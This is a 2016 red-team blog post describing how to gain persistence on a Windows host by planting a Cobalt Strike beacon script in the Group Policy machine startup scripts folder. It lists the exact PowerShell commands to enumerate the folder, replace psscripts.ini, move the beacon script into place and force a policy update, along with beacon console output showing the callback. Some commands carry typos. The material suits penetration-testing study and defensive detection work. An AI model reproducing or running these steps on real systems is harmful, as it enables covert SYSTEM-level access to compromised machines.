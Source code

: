 ```yaml
---
author: killswitch
comments: false
date: 2016-01-25 04:32:51+00:00
layout: post
link: http://cybersyndicates.com/2016/01/system-context-persistence-in-gpo-startup/
slug: system-context-persistence-in-gpo-startup
title: SYSTEM Context Persistence in GPO Startup Scripts
wordpress_id: 724
categories:
- Red Teaming / Pen Testing
---
```


Interesting enough I was recently experimenting on GPO settings to configure my Applocker for testing and came by Scripts under the (Computer Configuration) settings for GPO. This defiantly caught my attention, since persistence is a cat and mouse game of stored locations / methods. **This has been mentioned but I haven't seen it talked about so hey why not share what I did**

[![Screen Shot 2016-01-24 at 10.36.07 PM](http://cybersyndicates.com/wp-content/uploads/2016/01/Screen-Shot-2016-01-24-at-10.36.07-PM-1024x761.png)](http://cybersyndicates.com/wp-content/uploads/2016/01/Screen-Shot-2016-01-24-at-10.36.07-PM.png)

I knew I wanted to weaponize it from a pure command line standpoint as the configuration utility is pretty much point and click. Some of the assumptions are:




    
  1. You have already elevated or have Local Admin context on the box

    
  2. Have the ability to upload a file in your agent (CobaltStike) / Have a Deployable .BAT/PS script

    
  3. Willing to drop something to disk for persistence



[![Screen Shot 2016-01-24 at 10.41.18 PM](http://cybersyndicates.com/wp-content/uploads/2016/01/Screen-Shot-2016-01-24-at-10.41.18-PM.png)](http://cybersyndicates.com/wp-content/uploads/2016/01/Screen-Shot-2016-01-24-at-10.41.18-PM.png)

While that GUI looks quite simple and easy to use, that would be to dang easy! Lets get started:

The current process I use to deploy a CS Fully Staged Beacon:




    
  1. Enumerate current GPO scripts

    
  2. Remove the psscripts.ini

    
  3. Upload a new psscripts.ini

    
  4. Upload the Beacon.ps1 scripts

    
  5. conduct a Gpupdate

    
  6. On restart you should get a beacon!



The location of interest (while this seems trivial, do to the permissions on this directory you will have to force all commands):


    
    C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup



Enumerate the Dir (See if a scripts.ini is built):


    
    beacon> powershell Get-ChildItem -Force C:\Windows\System32\GroupPolicy\Machine\Scripts\
    [*] Tasked beacon to run: Get-ChildItem -Force C:\Windows\System32\GroupPolicy\Machine\Scripts\
    [+] host called home, sent: 77 bytes
    [+] received output:
     Directory: C:\Windows\System32\GroupPolicy\Machine\Scripts
    Mode LastWriteTime Length Name 
    ---- ------------- ------ ---- 
    d---- 10/15/2015 6:36 PM Shutdown 
    d---- 1/24/2016 5:57 PM Startup 
    -a-h- 1/24/2016 5:28 PM 184 psscripts.ini



Enumerate to see the current scripts in-play:


    
    powershell type C:\Windows\System32\GroupPolicy\Machine\Scripts\psscripts.ini



As you will noticed the structure goes (the 0Cmd.. is incremental):


    
    [ScriptsConfig]
    StartExecutePSFirst=true
    [Startup]
    0CmdLine=beacon2.ps1
    0Parameters=



Simply copy this data and save it locally in a text editor and add in you PS agent name. Once you have completed this go ahead and upload to the target. A side note on this, something extremely weird happens when trying to use the built in shell / ls / cd within CS beacons. While this was a pain, I just resorted to using PS for most of it.

Go ahead and delete the original psscripts.ini:


    
    powershell Remove-Item -Force C:\Windo0ws\System32\GroupPolicy\Machine\Scripts\psscripts.ini



After uploading the script to the C:\ drive (In my case I no ability to upload directly to the location):


    
    powershell Move-Item -force -path C:\psscripts.ini -destination C:\Windows\System32\GroupPolicy\Machine\Scripts\



Finally using CS Beacons Stageless PowerShel script I moved that to the required location:


    
    powershell Move-Item -force -path C:\beacon2.ps1 -destination C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup




    
    gpupdatep /force



Finally on reboot you should have a callback! :)

[![Screen Shot 2016-01-24 at 11.25.47 PM](http://cybersyndicates.com/wp-content/uploads/2016/01/Screen-Shot-2016-01-24-at-11.25.47-PM-1024x151.png)](http://cybersyndicates.com/wp-content/uploads/2016/01/Screen-Shot-2016-01-24-at-11.25.47-PM.png)

To wrap up this seems like a great SYSTEM level call back and the cool part is you can add in parameters for custom payloads. Ex. if you wanted to only start at certain time you could pass the time or date that would like to restrict or even extend. This method seems extremely strong and has proved to be reliable method. Soon to come is the CS aggressor script and PS script to automate this.
